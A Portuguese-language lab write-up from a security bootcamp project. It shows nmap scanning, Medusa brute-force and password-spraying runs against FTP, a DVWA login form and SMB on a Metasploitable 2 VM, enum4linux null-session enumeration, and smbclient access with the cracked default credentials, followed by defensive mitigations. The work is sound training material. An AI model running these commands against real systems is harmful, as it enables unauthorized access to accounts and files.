







# 🛡️ Simulação de Força Bruta e Password Spraying com Medusa e Kali Linux

Projeto prático desenvolvido durante o **Bootcamp Santander - Cibersegurança do Zero à Prática**, promovido pela [DIO](https://dio.me) em parceria com o Santander Open Academy.

O objetivo deste projeto é simular um fluxo completo de teste de penetração focado em autenticação (Varredura, Força Bruta, Automação Web e Password Spraying) em ambiente de laboratório isolado, demonstrar o impacto de credenciais fracas e propor medidas defensivas de mitigação.

> ⚠️ **Aviso Ético:** Todos os testes foram executados exclusivamente em ambiente virtualizado e controlado, com redes isoladas (*Host-Only*), estritamente para fins acadêmicos e de aprendizado em segurança defensiva.

---

## 🖥️ Topologia do Laboratório

- **Hipervisor:** Oracle VM VirtualBox
- **Rede:** Placa de rede exclusiva do hospedeiro (*Host-Only Network*) sem saída externa para a internet.
- **Máquina Atacante:** Kali Linux
- **Máquina Alvo:** Metasploitable 2 (`192.168.65.128`)

### 🧰 Ferramentas Utilizadas
- **Nmap:** Varredura de portas e enumeração de serviços/versões.
- **Medusa v2.3:** Ferramenta modular de ataque por força bruta paralela e autenticação em rede.
- **enum4linux:** Enumeração de contas, políticas e compartilhamentos via SMB/Samba.
- **Clientes FTP e smbclient:** Prova de conceito (PoC) e validação dos acessos obtidos.

---

## 🛰️ Fase 1: Reconhecimento e Mapeamento de Rede com Nmap

Antes de qualquer tentativa de autenticação, realizou-se a varredura da máquina alvo para identificar os serviços ativos e as portas abertas:

```bash
nmap -sV 192.168.65.128
```

**Principais Vetores Identificados:**
- `21/tcp open ftp (vsftpd 2.3.4)`: Serviço de transferência de arquivos.
- `80/tcp open http (Apache httpd 2.2.8)`: Servidor web (hospeda o DVWA).
- `139/tcp` e `445/tcp open netbios-ssn / Samba`: Serviços de compartilhamento de arquivos e autenticação de rede.



---

## 🔬 Fase 2: Força Bruta em Serviço FTP (Cenário 1)

O protocolo FTP (porta 21) é frequentemente alvo de ataques quando utiliza credenciais fracas ou padrão.

### 1. Preparação das Wordlists
Criou-se uma lista enxuta de usuários e senhas para testes controlados no Kali Linux:
```bash
echo -e 'user\nmsfadmin\nadmin\nroot\nteste' > usuarios.txt
echo -e '123456\npassword\nmsfadmin\nadmin\nteste' > senhas.txt
```

### 2. Execução com Medusa
O comando foi disparado com 6 threads paralelas (`-t 6`):
```bash
medusa -h 192.168.65.128 -U usuarios.txt -P senhas.txt -M ftp -t 6
```

**Resultado:**
O Medusa identificou com sucesso o usuário e senha válidos:
`ACCOUNT FOUND: [ftp] Host: 192.168.65.128 User: msfadmin Password: msfadmin [SUCCESS]`



### 3. Validação do Acesso
Conexão interativa pelo cliente FTP para confirmar a intrusão:
```bash
ftp 192.168.65.128
# Usuário: msfadmin | Senha: msfadmin
```
**Resultado:** Autenticado com sucesso (`230 Login successful`), comprovando a vulnerabilidade.



---

## 🌐 Fase 3: Tentativa em Formulário Web (DVWA) e Análise de Falsos Positivos (Cenário 2)

Para simular ataques contra interfaces web, testou-se a tela de autenticação do **DVWA (Damn Vulnerable Web Application)** (`/dvwa/login.php`) utilizando o Medusa.

### 1. Comando Executado
```bash
medusa -h 192.168.65.128 -U usuarios.txt -P senhas.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m "FORM:username=^USER^&password=^PASS^&Login=Login" \
  -m "FAIL:Login failed" -t 6
```

### 2. Análise do Resultado e Estudo de Caso de Falso Positivo
Durante a execução, a ferramenta retornou avisos (`WARNING: Invalid method`) e indicou `[SUCCESS]` para todas as combinações de senhas testadas, inclusive senhas incorretas.



**Diagnóstico Técnico:**
- O módulo `-M http` do Medusa é voltado essencialmente para *HTTP Basic Authentication* (janelas nativas do navegador com código de status HTTP 401).
- Ao interagir com um formulário web com campos POST e sessões em PHP, o módulo interpretou os códigos de resposta HTTP 200 OK do servidor web como sucesso de autenticação para todas as tentativas, gerando um **Falso Positivo**.
- **Lição Aprendida:** Em auditorias de aplicações web modernas, ferramentas de força bruta genéricas de rede devem ceder lugar a ferramentas especializadas em requisições HTTP dinâmicas (como o **THC-Hydra** com `http-post-form` ou o **Burp Suite Intruder**), capazes de tratar cabeçalhos, cookies de sessão e o corpo da resposta HTML.

---

## 🔍 Fase 4: Enumeração e Password Spraying em SMB (Cenário 3)

Diferente do brute force tradicional (muitas senhas em 1 usuário), o **Password Spraying** testa poucas senhas comuns contra múltiplos usuários válidos para contornar bloqueios automáticos de conta (*account lockout*).

### 1. Enumeração de Usuários (enum4linux)
Explorando sessões nulas (*Null Session*), foram extraídos os nomes de usuários reais do sistema via SID to RID:
```bash
enum4linux -a 192.168.65.128 | tee enum4_output.txt
```
*(Na solicitação de senha, basta pressionar Enter para prosseguir com a sessão nula)*.



### 2. Criação das Listas de Spray
Com os usuários mapeados (`root`, `msfadmin`, `user`, `service`, `postgres`, etc.), montou-se o arquivo `smb_usuarios.txt` e um arquivo de senhas comuns (`spray.txt`).

### 3. Execução do Password Spraying com Medusa
Utilizou-se o módulo `smbnt` nas portas de rede SMB (139/445):
```bash
medusa -h 192.168.65.128 -U smb_usuarios.txt -P spray.txt -M smbnt -t 2
```

**Resultado Crítico:**
A ferramenta encontrou credenciais com acesso administrativo total:
`ACCOUNT FOUND: [smbnt] Host: 192.168.65.128 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]`



### 4. Validação do Acesso com smbclient
Executou-se a prova de conceito com acesso ao sistema de arquivos e listagem dos compartilhamentos autorizados:
```bash
# 1. Acesso interativo navegando nos arquivos:
smbclient //192.168.65.128/tmp -U msfadmin
smb: \> ls

# 2. Listagem de compartilhamentos autorizados no servidor:
smbclient -L //192.168.65.128 -U msfadmin
```
**Resultado:** Acesso confirmado aos compartilhamentos, inclusive recursos administrativos (`ADMIN$`).



---

## 🛡️ Medidas de Defesa e Mitigação

Para mitigar os riscos demonstrados, recomenda-se a aplicação do princípio de **Defesa em Profundidade (*Defense in Depth*)**:

1. **Políticas de Bloqueio de Contas (Account Lockout):** Suspender temporariamente contas após 3 a 5 tentativas consecutivas incorretas.
2. **Autenticação Multifator (MFA):** Tornar o MFA obrigatório em todos os serviços de rede e painéis de acesso administrativos.
3. **Gestão de Senhas e Eliminação de Credenciais Padrão:** Proibir senhas fracas ou iguais ao nome de usuário e forçar a troca periódica e na instalação de qualquer sistema.
4. **Desativação de Sessões Nulas e Protocolos Legados:** Desabilitar acesso anônimo no Samba/SMB, desativar SMBv1 e descontinuar serviços em texto claro (como FTP puro em prol de SFTP/SSH).
5. **Monitoramento e Detecção (Fail2ban e SIEM):** Implantar ferramentas como **Fail2ban** para bloquear IPs em caso de repetidas falhas de autenticação e correlacionar eventos de log (ex: Event ID 4625 no Windows ou `/var/log/auth.log` no Linux) para detecção de anomalias em tempo real.

---

## 🎓 Conclusão

O projeto cobriu o ciclo completo de uma avaliação de segurança técnica: do reconhecimento passivo/ativo com Nmap, passando por enumeração de superfície de ataque, identificação de falsos positivos, até a execução de ataques modernos de autenticação e sua devida validação. Essa abordagem prática reforça que senhas fracas e serviços desatualizados representam vetores críticos de entrada em qualquer infraestrutura de rede.